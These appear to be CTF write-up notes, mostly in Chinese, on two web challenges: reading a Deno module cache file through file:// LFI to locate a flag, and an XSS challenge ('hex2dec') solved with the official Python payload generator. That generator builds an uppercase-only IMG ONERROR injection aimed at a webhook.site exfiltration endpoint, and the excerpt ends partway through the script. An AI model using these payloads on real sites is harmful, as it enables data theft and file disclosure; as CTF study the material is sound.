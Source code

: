 ```js
    ctx.response.body = fetchResponse.body;
  })
```
但是现在主机和token都不知道,访问`127.0.0.1`都是500
![image](https://i.imgur.com/1W7rm53.png)

可以访问本机服务`0.0.0.0:8080`
但是还是不知道怎么ssrf

--- 
根据wp是通过伪协议LFI读取缓存文件,wp中采用本地搭建docker来发现flag缓存文件的路径

> $DENO_DIR/deps is used to store files fetched through remote url import. It contains subfolders based on url scheme (currently only http and https), and store files to locations based on the URL path

最终路径:`/home/app/.cache/deno/deps/http/safe-proxy-flag-provider_PORT8082/70ec621b0141f80c80d9e26b084da38df4bbf6b4b64d04c837f7b3cd5fe8482b`

---
offical wp
读取缓存文件`file:///home/app/.cache/deno/dep_analysis_cache_v1`,存储的是deno运行时的模块依赖分析文件,是一个sqlite db文件
我们使用[sqlite-view](https://inloop.github.io/sqlite-viewer/)打开,
![image](https://i.imgur.com/ugLU8l8.png)
而deno会根据此生成一个缓存文件,路径为`$DENO_DIR/deps/http/<domain>_PORT<port>/sha256(path部分除了domain,port)
即`/home/app/.cache/deno/deps/http/safe-proxy-flag-provider_PORT8082/{cache_hash}`
### hex2dec
#xss 
一个hex转dec的网站
![image](https://i.imgur.com/hkm83Xl.png)
这真就一点不会,这玩意怎么xss

---
dinner正则写错了
![image](https://i.imgur.com/DAygaDd.png)
所以可以直接使用标签,害我看了我半天
官方脚本
```python
def gen_str(s):
    chars = []
    for c in s:
        if c.islower():
            idx = ord(c) - ord("a")
            chars.append(f"X[{idx}]")
        elif c == "`":
            chars.append(f"`\\``")
        elif c == "\\":
            chars.append(f"`\\\\`")
        else:
            chars.append(f"`{c}`")
    return "+".join(chars)

def gen_unicode_str(s):
    return "".join([f"\\u{ord(c):04X}" for c in s])

webhook = "https://webhook.site/b847bcd2-a4a3-4797-b518-7b33b3ef2012"

payload = "<A ID=A HREF=ABCDEFGHIJKLMNOPQRSTUVWXYZ:>"
payload += "<IMG SRC ONERROR="
payload += "X=A+``;"
payload += f"HREF={gen_str('href')};"
payload += f"CLICK={gen_str('click')};"
```